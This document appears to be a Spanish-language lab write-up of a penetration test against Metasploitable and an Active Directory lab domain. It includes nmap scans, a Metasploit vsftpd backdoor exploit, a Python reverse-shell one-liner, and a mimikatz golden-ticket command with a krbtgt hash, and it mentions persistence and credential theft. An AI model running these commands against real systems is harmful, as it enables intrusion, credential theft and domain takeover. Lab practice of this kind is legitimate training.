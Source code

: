 Nmap

```python
sudo nmap -sS -p- --open --min-rate 2000 172.16.25.2 -n -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-12 13:21 CDT
Nmap scan report for 172.16.25.2
Host is up (0.15s latency).
Not shown: 65506 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6667/tcp  open  irc
6697/tcp  open  ircs-u
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  msgsrvr
35328/tcp open  unknown
35424/tcp open  unknown
50761/tcp open  unknown
60571/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 24.24 seconds
```

![[Pasted image 20250512142719.png]]

Versiones y servicios 

```python 
nmap -p21,22,23,25,53,80,111,139,445,512,513,514,1099,1524,2049,3306,36,32,5432,5900,6000,6200,6667,6697,8009,8180,8787,37198,41564,56126,59201 -sCV 172.16.25.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-12 13:28 CDT
Stats: 0:03:11 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.51% done; ETC: 13:32 (0:00:00 remaining)
Nmap scan report for 172.16.25.2
Host is up (0.16s latency).

PORT      STATE  SERVICE     VERSION
21/tcp    open   ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.16.250.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open   ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp    open   telnet?
25/tcp    open   smtp        Postfix smtpd
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
32/tcp    closed unknown
36/tcp    closed unknown
53/tcp    open   domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp    open   http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Register
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
111/tcp   open   rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      35328/tcp   mountd
|   100005  1,2,3      41195/udp   mountd
|   100021  1,3,4      38205/udp   nlockmgr
|   100021  1,3,4      60571/tcp   nlockmgr
|   100024  1          35424/tcp   status
|_  100024  1          50192/udp   status
139/tcp   open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open   netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp   open   exec        netkit-rsh rexecd
513/tcp   open   login?
514/tcp   open   shell       Netkit rshd
1099/tcp  open   java-rmi    GNU Classpath grmiregistry
1524/tcp  open   bindshell   Bash shell (**BACKDOOR**; root shell)
2049/tcp  open   nfs         2-4 (RPC #100003)
3306/tcp  open   mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 20
|   Capabilities flags: 43564
|   Some Capabilities: Support41Auth, SupportsTransactions, SwitchToSSLAfterHandshake, LongColumnFlag, Speaks41ProtocolNew, ConnectWithDatabase, SupportsCompression
|   Status: Autocommit
|_  Salt: 9h!hka$,P1A4}=W{*Zi~
5432/tcp  open   postgresql  PostgreSQL DB 8.3.0 - 8.3.7
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_ssl-date: 2025-04-25T03:00:48+00:00; -17d15h32m15s from scanner time.
5900/tcp  open   vnc         VNC (protocol 3.3)
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
6000/tcp  open   X11         (access denied)
6200/tcp  closed lm-x
6667/tcp  open   irc         UnrealIRCd
6697/tcp  open   irc         UnrealIRCd
8009/tcp  open   ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp  open   http        Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/5.5
8787/tcp  open   drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
37198/tcp closed unknown
41564/tcp closed unknown
56126/tcp closed unknown
59201/tcp closed unknown
Service Info: Hosts:  metasploitable.localdomain, Production-Server, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -17d14h12m14s, deviation: 2h18m34s, median: -17d15h32m15s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-04-24T22:59:24-04:00
|_nbstat: NetBIOS name: PRODUCTION-SERV, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 254.13 seconds
```


ftp
usando metaexploit podemos conseguir un exploit para la explotacion del puerto ftp version 2.3.4
![[Pasted image 20250512145644.png]]

root

```python
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.16.25.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```


![[Pasted image 20250512145918.png]]


![[Pasted image 20250512150323.png]]

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.250.11",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```


![[Pasted image 20250512162449.png]]


creamos una terea crontab para tener persistencia
![[Pasted image 20250512163457.png]]

credenciales
![[Pasted image 20250512164302.png]]


información sobre la base de datos
![[Pasted image 20250512165114.png]]

credenciales de la base de datos
![[Pasted image 20250512165408.png]]




![[Pasted image 20250512181147.png]]


10.10.10.3

![[Pasted image 20250512192250.png]]



![[Pasted image 20250512192320.png]]


obteniendo una shell interactiva.
![[Pasted image 20250512192545.png]]

persistencia

![[Pasted image 20250512192954.png]]


Download Keytab Files
![[Pasted image 20250512193149.png]]

https://github.com/sosdave/KeyTabExtract.git

![[Pasted image 20250512193909.png]]


desencriptado 
![[Pasted image 20250512194413.png]]


![[Pasted image 20250512194651.png]]


![[Pasted image 20250512194902.png]]


psexec
![[Pasted image 20250512195600.png]]


reverse shell
![[Pasted image 20250512200042.png]]

![[Pasted image 20250512201912.png]]

![[Pasted image 20250512201519.png]]


mimikats

![[Pasted image 20250512202312.png]]


![[Pasted image 20250512202334.png]]

subimos el mimikatz para obtener mas informacion
![[Pasted image 20250512203353.png]]


subimos el powerview
![[Pasted image 20250512210444.png]]

S-1-5-21-2332039752-785340267-2377082902


```python
kerberos::golden /user:Administrator /domain:child.redteam.corp /sid:S-1-5-21-2332039752-785340267-2377082902 /sids:S-1-5-21-1882140339-3759710628-635303199-500 /krbtgt:24dd6646fd7e11b60b6a9508e6fe7e5a /ptt
```


![[Pasted image 20250512211423.png]]

```python
dir \\RED-DC.redteam.corp\C$\Users\Administrator\Desktop\
```

```python
type \\RED-DC.redteam.corp\C$\Users\Administrator\Desktop\secret.xml
```